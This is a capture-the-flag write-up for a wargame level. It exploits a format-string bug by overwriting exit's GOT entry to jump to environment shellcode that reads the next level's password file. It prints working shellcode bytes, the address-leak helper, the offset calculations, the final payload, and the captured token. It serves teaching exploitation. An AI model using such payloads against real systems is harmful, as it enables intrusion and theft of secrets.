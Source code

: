 # level05

1. Overview / Plan

   * Vulnerability: **format string** in `printf(local_78)`, followed immediately by a call to `exit@plt`. Because `exit` is called right after `printf`, overwriting the **GOT entry of `exit`** with a pointer to attacker‑controlled shellcode gives code execution.
   * Shellcode location: put the payload in the **environment** (`SHELLCODE`) so we can leak its address with `getenv`.
   * Architecture: **32‑bit x86**, little‑endian. We will write the 32‑bit target address via two **half‑word** writes using `%hn`.

2. Relevant decompiled code (Ghidra / pseudo‑C)

```c
void main(void) {
  byte local_78[100];
  uint i = 0;
  fgets((char*)local_78, 100, stdin);
  i = 0;
  while (1) {
    // compute strlen(local_78) in a quirky way
    size_t len = strlen((char*)local_78);
    if (i >= len) {
      printf((char*)local_78);   // VULNERABLE: user string as format
      exit(0);                    // immediately calls exit@plt
    }
    // fold A..Z -> a..z (XOR 0x20)
    if ('@' < (char)local_78[i] && (char)local_78[i] < '[') {
      local_78[i] ^= 0x20;
    }
    i++;
  }
}
```

Notes:

* The **case‑folding** step lowercases `A..Z`. Keep format specifiers in **lowercase** (e.g., `%hn`, `%p`, `%c`). Raw address bytes (`\xe0\x97\x04\x08`, etc.) are non‑alphabetic and unaffected.

3. Place shellcode in the environment & leak its address

   Export shellcode that opens/reads `/home/users/level06/.pass` and prints it:

```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'
```

Leak the pointer with a 32‑bit helper (example output shown):

```bash
printf '%s\n' '#include <stdio.h>' '#include <stdlib.h>' \
'int main(void){ printf("%p\n", getenv("SHELLCODE")); return 0; }' \
> /tmp/_tmp.c && gcc -O2 -m32 /tmp/_tmp.c -o /tmp/_tmp && /tmp/_tmp && rm -f /tmp/_tmp /tmp/_tmp.c
# example leak
0xffffd8a9
```

4. Choose the target: `exit@plt` → GOT entry

   Disassembly of the PLT stub shows the **indirect jump** through the GOT at `0x080497e0`:

```gdb
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

We will overwrite:

* `0x080497e0` (low halfword)
* `0x080497e2` (high halfword)

with the leaked address **`0xffffd8a9`** (low = `0xd8a9`, high = `0xffff`).

5. Argument position for writes

   In this binary, placing the two addresses at the start of the input makes them the **10th** and **11th** variadic arguments for `printf`.
   We will therefore use `%10$hn` and `%11$hn`.

6. Compute the print counts (mod 65536)

   Initial printed count = **8** (the two 4‑byte addresses themselves).

   Goal 1 (write low half first to keep counts monotonic):

   * Target low half = `0xd8a9` = **55465**.
   * We already printed 8, so print **55465 − 8 = 55457** more via `%55457c` → total becomes 55465; `%10$hn` writes `0xd8a9` to `0x080497e0`.

   Goal 2 (write high half):

   * Target high half = `0xffff` = **65535**.
   * Current total = 55465, so print **65535 − 55465 = 10070** more via `%10070c`; `%11$hn` writes `0xffff` to `0x080497e2`.

7. Final payload & run

```bash
python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55457c%10\$hn' + '%10070c%11\$hn' + '\n'" | ./level05
# output (token):
# h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

Explanation:

* `\x08\x04\x97\xe0'[::-1]` → `\xe0\x97\x04\x08` = little‑endian bytes of `0x080497e0` (exit@GOT low half).
* `\x08\x04\x97\xe2'[::-1]` → `\xe2\x97\x04\x08` = little‑endian bytes of `0x080497e2` (exit@GOT high half).
* `%55457c%10$hn` writes `0xd8a9` into low half.
* `%10070c%11$hn` advances the total to `0xffff` and writes it into high half.
* When `printf` returns, the program calls `exit@plt`; our GOT overwrite jumps to **`0xffffd8a9`** (the env shellcode), which prints the target file.

8. Token

```text
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
